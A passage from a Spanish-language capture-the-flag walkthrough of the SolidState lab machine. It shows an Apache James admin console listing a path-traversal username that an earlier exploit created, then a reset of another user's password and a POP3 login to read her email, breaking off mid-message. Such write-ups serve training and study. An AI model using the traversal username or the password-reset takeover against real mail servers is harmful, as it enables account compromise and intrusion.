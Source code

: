 Con el comando `help` vemos que tenemos algunas opciones; vamos a utilizar primero `listusers` para ver los usuarios que se encuentran en el servicio:

```bash
listusers
Existing accounts 6
user: james
user: ../../../../../../../../etc/bash_completion.d
user: thomas
user: john
user: mindy
user: mailadmin
```

El usuario `../../../../../../../../etc/bash_completion.d` fue el que nos creo el exploit. Ahora vemos que tenemos la posibilidad de cambiar la contraseña de un usuario con el comando `setpassword`; asi que para este caso vamos a tomar al usuario `mindy` y modificaremos la contraseña como `mindy123`:

```bash
setpassword mindy mindy123
Password for mindy reset
```

Ahora con esto, podemos ingresar al servicio POP3 por el puerto 110 como el usuario `mindy`:

```bash
❯ telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER mindy
+OK
PASS mindy123
+OK Welcome mindy
```

Ya nos encontramos como el usuario `mindy` dentro dle servicio POP3, ahora con el comando `LIST` podemos ver los correos del usuario y con `RETR [id]` podemos ver el contenido de los mismos:

```bash
LIST
+OK 2 1945
1 1109
2 836
RETR 1                         
+OK Message follows          
Return-Path: <mailadmin@localhost>              
Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate>                                                                   
MIME-Version: 1.0                                               
Content-Type: text/plain; charset=us-ascii     
Content-Transfer-Encoding: 7bit                                 
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])                
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 798                                                               
          for <mindy@localhost>;                                
          Tue, 22 Aug 2017 13:13:42 -0400 (EDT)                 
Date: Tue, 22 Aug 2017 13:13:42 -0400 (EDT)                     
From: mailadmin@localhost                                                                                                        
Subject: Welcome                                                                                                                 

Dear Mindy,    
```